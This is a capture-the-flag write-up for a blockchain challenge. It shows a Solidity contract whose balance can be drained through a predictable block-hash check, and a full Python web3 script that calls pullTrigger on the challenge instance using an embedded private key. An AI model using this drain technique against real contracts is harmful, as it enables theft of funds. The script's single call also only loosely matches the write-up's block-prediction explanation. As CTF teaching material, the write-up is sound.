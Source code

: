 solved by Fire Lord of the West🔥

chall files:
[RussianRoulette.sol](./RussianRoulette.sol)
[Setup.sol](./Setup.sol)

The challenge showed us a smart contract. 
A contract is something like a wallet , it also has it's own balance , the only difference is  it  can be programmed to do something
```js
pragma solidity 0.8.23;

contract RussianRoulette {

    constructor() payable {
        // i need more bullets
    }

    function pullTrigger() public returns (string memory) {
        if (uint256(blockhash(block.number - 1)) % 10 == 7) {
            selfdestruct(payable(msg.sender)); // 💀
        } else {
        return "im SAFU ... for now";
        }
    }
}
```
When the above contract is deployed to the blockchain , we can call its function , like `pullTrigger`  (  we  need to pay some amount of ether to call this function from the contract) . 
The vulnerable part of this code is it's using a predictable random source . 
```js
if (uint256(blockhash(block.number - 1)) % 10 == 7)
```
Block number can be predict and see by everyone on chain  ,so an attacker could leverage this and execute `pullTrigger` function at the correct block , so it hit `selfdestruct` and send all the available balance to us (msg.sender) 

From the Connection info from docker we are provided with 
```
Private key     :  
0xbcb5114805d36ebfb8b7f922af56c7e55b934a8fc4a3decb465c1ae5931a6464
Address         :  //This is your wallet  0x2532A1271EEb8dba8dBd0eA49C81cb3b54680ac4
Target contract :  0x4e5884766cC41aea0A2a6a59d4A81Ef6A685365B 
Setup contract  :  0x32484b0033E591f0713F32b00A5edD8F0f35A91e
```
So this is enough information to trigger a function on the deployed contract instance .
That's enough talking below is the code i used to solve it . BTW it's maybe quicker to just code this exploit in `solidity` . But i'm noob at `solidity` .


```python
'''
SO the key is to attack the random block generator on the block chain 
https://www.infuy.com/blog/preventing-the-source-of-randomness-vulnerability/

'''

from web3 import Web3
from eth_account import Account

rpc_url= "http://83.136.252.82:58425"

private_key= "0xbcb5114805d36ebfb8b7f922af56c7e55b934a8fc4a3decb465c1ae5931a6464"
address ="0x2532A1271EEb8dba8dBd0eA49C81cb3b54680ac4"
setup_contract_addr = "0x32484b0033E591f0713F32b00A5edD8F0f35A91e"
setup_contract_abi = [
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "TARGET",
		"outputs": [
			{
				"internalType": "contract RussianRoulette",
				"name": "",
				"type": "address"
			}
		],
		"stateMutability": "view",
		"type": "function"
	},
	{
		"inputs": [],
		"name": "isSolved",
		"outputs": [
			{
				"internalType": "bool",
				"name": "",
				"type": "bool"
			}
		],
		"stateMutability": "view",
		"type": "function"
	}
] 

target_contract_addr = "0x4e5884766cC41aea0A2a6a59d4A81Ef6A685365B" 
target_contract_abi = [
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "pullTrigger",
		"outputs": [
			{
				"internalType": "string",
				"name": "",
				"type": "string"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	}
]

# Initialize web3

web3 = Web3(Web3.HTTPProvider(rpc_url))
setup_contract = web3.eth.contract(address=setup_contract_addr,abi=setup_contract_abi)
target_contract = web3.eth.contract(address=target_contract_addr,abi=target_contract_abi)

# Init account 
account = Account.from_key(private_key)
web3.eth.default_account = address 

current_block_number = web3.eth.block_number
print("Current block number",current_block_number)

# print("Account Balance:",web3.eth.get_balance(address),"ETH")

contract_bal = web3.eth.get_balance(target_contract_addr) 
print("Target contract balance: ",web3.from_wei(contract_bal,'ether'))
#Exploit done here 
def pull_trigger():

    result = target_contract.functions.pullTrigger().transact({'from': address}) # Make transact trigger
    print("Result of pullTrigger function:", result)

pull_trigger()


def check_if_solved():
    is_solved = setup_contract.functions.isSolved().call()
    print("Is the RussianRoulette contract solved?", is_solved)

check_if_solved()
```